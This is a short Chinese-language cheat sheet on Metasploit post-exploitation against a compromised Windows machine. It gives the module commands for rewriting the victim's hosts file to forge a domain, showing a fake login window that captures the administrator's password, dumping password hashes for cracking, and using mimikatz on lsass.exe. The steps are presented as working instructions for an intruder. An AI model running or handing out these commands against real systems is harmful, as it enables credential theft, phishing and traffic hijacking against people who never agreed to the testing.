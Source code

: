 

## host 注入——伪造域名

msf

提权到系统最高权限，

然后进行如下操作：

```
use post/windows/manage/inject_host   # 使用注入模块

show options

set IP [自己的ip]     # 这里的ip是之后目标指向的ip

set DOMAIN [要篡改的域名]    # 要伪造什么域名

set SESSION [session-id]    # 对哪个session-id进行修改

exploit
```

实质是修改了本机操控的木马所在电脑的host文件



## 用户认证钓鱼窗口

进入sesion中

```
run post/windows/gather/phish_windows_credentials
```

这个时候管理员的桌面会出现认证窗口（假的）

然后我们就可截获其用户名和密码。



## passTheHash:

必须是system权限
进入一个session

```
run post/windows/gather/hashdump    # 获得操作系统的用户hash值
```

即可以获取到管理员密码加密之后的密码，之后使用穷举的方法破解【使用彩虹表等】【或使用猕猴桃】



## 使用猕猴桃(32位)：

实质利用lsass.exe本地安全认证进程，达到获得用户登录密码。
